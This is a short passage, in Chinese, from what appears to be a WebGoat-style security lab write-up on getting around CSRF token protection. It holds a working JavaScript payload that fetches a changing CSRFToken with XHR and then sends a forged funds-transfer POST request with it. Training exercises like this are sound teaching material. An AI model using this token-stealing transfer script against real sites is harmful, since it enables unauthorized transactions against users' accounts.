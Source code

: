 点击提交，即可拿到`CSRFToken`

![image-20230517144718088](assets/image-20230517144718088.png)

但是我们多试几次就可以发现，这个`CSRFToken`每次都会变化，所以我们就需要在一次表单提交之前就拿到这个CSRFToken。

所以我们构造如下的脚本，首先使用XHR构造GET请求从`transferFunds=main`的页面中将`CSRFToken`拿到，随后我们再用XHR构造POST请求，向被攻击url发送资金转移请求。

```html
<script>
function transferFunds(token) {
	xmlHTTP = new XMLHttpRequest();
	var transferURL= "attack?Screen=2&menu=900&transferFunds=4000&CSRFToken=" + token;
	xmlHTTP.open("POST", transferURL, false);
	xmlHTTP.send();
    alert("hello")
}
function getCSRFToken() {
	var xmlHTTP = new XMLHttpRequest();
	var tokenURL = "attack?Screen=2&menu=900&transferFunds=main";
	xmlHTTP.open("GET", tokenURL, true);
	xmlHTTP.responseType="document";
	xmlHTTP.onreadystatechange = function () {
		if(xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			var tokenResponse = xmlHTTP.response;
			var tokenHits = tokenResponse.getElementsByName("CSRFToken");
			var token = (tokenHits[0].value);
			transferFunds(token);
		}
	}
	xmlHTTP.send();
}
getCSRFToken()
</script>
```
